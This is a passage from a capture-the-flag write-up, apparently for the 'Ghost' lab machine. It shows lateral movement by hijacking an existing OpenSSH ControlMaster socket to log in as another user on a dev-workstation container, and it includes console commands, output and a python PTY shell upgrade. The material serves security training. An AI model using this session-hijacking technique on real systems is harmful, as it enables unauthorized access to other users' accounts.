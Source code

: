 ## 7. Lateral movement to `dev-workstation` container

Exploring the `docker-entrypoint.sh` of the container reveals that `ControlMaster` is configured

```console
root@36b733906694:/app# cat /docker-entrypoint.sh
cat /docker-entrypoint.sh
#!/bin/bash

mkdir /root/.ssh
mkdir /root/.ssh/controlmaster
printf 'Host *\n  ControlMaster auto\n  ControlPath ~/.ssh/controlmaster/%%r@%%h:%%p\n  ControlPersist yes' > /root/.ssh/config

exec /app/ghost_intranet
```

> [!Note]
>
> `ControlMaster` is a SSO feature of OpenSSH that enables the sharing of multiple sessions over a single network connection. This means that you can connect to the cluster once, enter your password and verification code, and have all other subsequent `ssh` sessions (including `svn`, `rsync`, etc. that run over `ssh`) piggy-back off the initial connection without need for re-authentication.
>
> https://docs.rc.fas.harvard.edu/kb/using-ssh-controlmaster-for-single-sign-on/

Let's see where `ControlMaster` can connect to:

```console
root@36b733906694:/app# ls -l /root/.ssh/controlmaster/
ls -l /root/.ssh/controlmaster/
total 0
srw------- 1 root root 0 Aug 21 00:45 florence.ramirez@ghost.htb@dev-workstation:22
```

Connecting to `florence.ramirez@ghost.htb@dev-workstation`:

```console
root@36b733906694:/app# ssh florence.ramirez@ghost.htb@dev-workstation
ssh florence.ramirez@ghost.htb@dev-workstation
Pseudo-terminal will not be allocated because stdin is not a terminal.
python3 -c 'import pty;pty.spawn("/bin/bash")'
florence.ramirez@LINUX-DEV-WS01:~$ id
id
uid=50(florence.ramirez) gid=50(staff) groups=50(staff),51(it)
florence.ramirez@LINUX-DEV-WS01:~$ uname -a
uname -a
Linux LINUX-DEV-WS01 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 GNU/Linux
```

The `LINUX-DEV-WS01` appears to be a container as well, reading `/docker-entrypoint.sh`, it appears to be joined to domain

<details><summary>Full <code>/docker-entrypoint.sh</code> output</summary></details>
